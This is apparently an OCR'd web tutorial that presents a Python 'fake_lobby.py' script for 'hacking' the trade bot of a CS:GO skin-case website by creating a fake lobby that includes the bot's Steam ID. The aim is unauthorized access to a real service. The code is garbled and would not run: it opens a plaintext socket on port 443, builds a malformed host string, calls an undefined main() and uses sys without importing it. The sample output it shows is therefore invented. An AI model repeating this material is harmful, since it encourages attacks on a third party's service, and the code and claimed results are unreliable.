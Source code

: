 Now that you have some skins in your account, it's time to start the hacking process. The first thing you need to do is find the bot's Steam ID. This can be done easily by browsing through the website's source code until you find a page that looks like this:

As you can see, the Steam ID for this particular bot is 76561198062399788. Now that we have the bot's Steam ID, we can start hacking!

The first thing we need to do is create a fake lobby and add the bot as a player. This can be done fairly easily with PyCharm (or any other Python IDE), or with a standard Python console if you're comfortable with coding. For simplicity sake, I'm going to assume that you're using PyCharm.

First open up PyCharm and create a new file called "fake_lobby.py". Then copy and paste the following code into the file:


 import socket

 import time

HOST = "csgo-case.com"

PORT = 443

def create_socket(addr):

 s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

 try: s.connect((HOST, PORT)) except socket.error: print("Could not connect to %s:%d" % (HOST, PORT)) sys.exit(1) return s

def send(sock, data):

 sock.send(data)

def recv(sock):

 data = sock.recv(4096) return data

lobby_id = 12345678

username = "hacker"

password = "hack3r!"

# Create a fake lobby and add the target bot as a player
 try: lobby = create_socket(("127." + HOST), PORT) print("[*] Creating fake lobby...")    msg = "{'type': 'CreateLobby', 'steamid': '76561198062399788', 'Name': 'Test Lobby'}"    send(lobby, msg) print("[+] Fake lobby created!")  players = recv(lobby) print("[*] Received player list from lobby:") print(players) BotID = players[0].split()[1]  except Exception as e: print("[!]Error creating fake lobby: {}".format(e)) sys . exit ( 1 )

if __name__ == "__main__": main()

 Copy and paste this code into your file, then save it and open up your terminal/console window. Now run the following command in your terminal window: python3 fake_lobby . py You should see output similar to this: [*] Creating fake lobby ... [+] Fake lobby created ! [*] Received player list from lobby : [ * ] BotID : 76561198062399788 As you can see, our fake lobb y has been created successfully and we've also obtained the BotID for our target bot . Now we can start hacking !
